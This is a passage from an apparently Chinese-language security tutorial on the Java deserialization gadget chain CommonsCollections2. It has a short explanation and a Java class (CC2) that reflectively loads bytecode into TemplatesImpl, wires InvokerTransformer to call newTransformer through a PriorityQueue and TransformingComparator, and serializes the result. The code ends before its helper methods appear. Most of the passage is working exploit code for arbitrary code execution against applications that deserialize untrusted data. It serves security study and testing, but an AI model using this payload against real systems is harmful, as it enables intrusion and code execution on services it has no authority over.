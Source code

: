 ## CommonsCollections2:

不走`TrAXFilter.class`的路线，直接用`InvokerTransform`调用`newTransformer`，通过add来传入参数，不使用自定义数组`ConstantTransformer`了

[![](assets/1701612311-bf05d92c2ca499434ea9e3f487539fab.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230712235607-9d53d390-20cc-1.png)

```plain
package EXP;


import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.*;


import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.PriorityQueue;

public class CC2 {
    public static void main(String[] args) throws Exception{

        TemplatesImpl Templates = new TemplatesImpl();
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");


        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);

        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);


        InvokerTransformer<Object,Object> invokerTransformer = new InvokerTransformer<>("newTransformer",new Class[]{},new Object[]{});
        TransformingComparator transformingComparator = new TransformingComparator(new ConstantTransformer<>(1));

        PriorityQueue priorityQueue = new PriorityQueue<>(transformingComparator);
        //size长度要加2并将Temlates传入
        priorityQueue.add(Templates);
        priorityQueue.add(Templates);

        Class c = transformingComparator.getClass();
        Field transformedField = c.getDeclaredField("transformer");
        transformedField.setAccessible(true);
        transformedField.set(transformingComparator,invokerTransformer);


        serialize(priorityQueue);
        unserialize("ser.bin");
    }



```